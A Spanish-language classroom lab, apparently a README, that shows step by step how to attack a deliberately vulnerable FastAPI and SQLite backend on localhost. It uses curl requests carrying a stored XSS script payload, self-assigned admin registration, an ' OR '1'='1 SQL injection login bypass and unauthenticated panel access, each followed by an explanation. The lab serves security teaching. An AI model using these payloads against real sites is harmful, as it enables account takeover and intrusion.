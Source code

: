 # Laboratorio: Explotación paso a paso de un backend vulnerable con FastAPI + SQLite

## 1. Registro de un usuario con código XSS como nombre

```bash
curl -X POST http://localhost:8000/register \
  -H "Content-Type: application/json" \
  -d '{"username": "<script>alert(`XSS`)</script>", "password": "xss123", "role": "user"}'
```

### Explicación:

* Se registra un usuario cuyo nombre contiene un `<script>`.
* El backend **no valida ni escapa** los datos del usuario.
* Si este dato es mostrado luego en una vista HTML (por ejemplo, en un panel de admin), el navegador ejecutaría `alert(...)`.
* Esto demuestra una **vulnerabilidad de Cross-Site Scripting (XSS)** almacenado.


## 2. Registro de un atacante como administrador

```bash
curl -X POST http://localhost:8000/register \
  -H "Content-Type: application/json" \
  -d '{"username": "eviluser", "password": "123456", "role": "admin"}'
```

### Explicación:

* El atacante se autodeclara como `"role": "admin"`.
* El sistema **acepta cualquier rol ingresado por el usuario**, sin validación.
* Esto permite una **escalación de privilegios**, una falla grave de control de acceso.


## 3. Inyección SQL para evadir autenticación

```bash
curl -X POST http://localhost:8000/login \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR '1'='1\"}"
```

### Explicación:

* Esta consulta manipula directamente el SQL vulnerable.
* `' OR '1'='1` hace que la condición de contraseña **siempre sea verdadera**.
* En sistemas mal diseñados, esto permite el login sin conocer la contraseña real.
* En tu caso, el sistema devolvió el primer match disponible (el usuario XSS), confirmando el **SQL Injection**.

## 4. Login exitoso del atacante (`eviluser`)

```bash
curl -X POST http://localhost:8000/login \
  -H "Content-Type: application/json" \
  -d '{"username": "eviluser", "password": "123456"}'
```

### Explicación:

* Aquí el atacante ya está registrado como administrador.
* Realiza login normalmente con sus credenciales.
* El sistema responde con:

  * `"message": "Bienvenido eviluser"`
  * `"role": "admin"`
  * `"token": "insecure-token"` (no es real, solo texto plano)
* Este comportamiento confirma que el sistema **no verifica roles ni protege los tokens**, por lo que **cualquiera puede ser admin** si así lo decide al registrarse.


## 5. Acceso al panel sin autenticación

```bash
curl http://localhost:8000/panel
```

### Explicación:

* Este endpoint se puede acceder directamente **sin token, sin login, sin sesión**.
* Devuelve siempre el mismo contenido para todos.
* Esto representa un caso claro de **Broken Access Control**:

  * No hay validación de permisos
  * No se distingue entre usuarios o roles
  * No se protege información ni acceso a funciones internas


## Resultado final del laboratorio

Con este conjunto de solicitudes, tus alumnos aprenden a:

| Técnica                 | Ataque demostrado                               |
| ----------------------- | ----------------------------------------------- |
| XSS                     | Inyección de `<script>` en el registro          |
| SQLi                    | Bypass de login usando `' OR '1'='1`            |
| Escalada de privilegios | Registro con `role=admin` sin control           |
| Broken Authentication   | Login sin verificación, sin hash, sin seguridad |
| Broken Access Control   | Acceso libre a `/panel`                         |

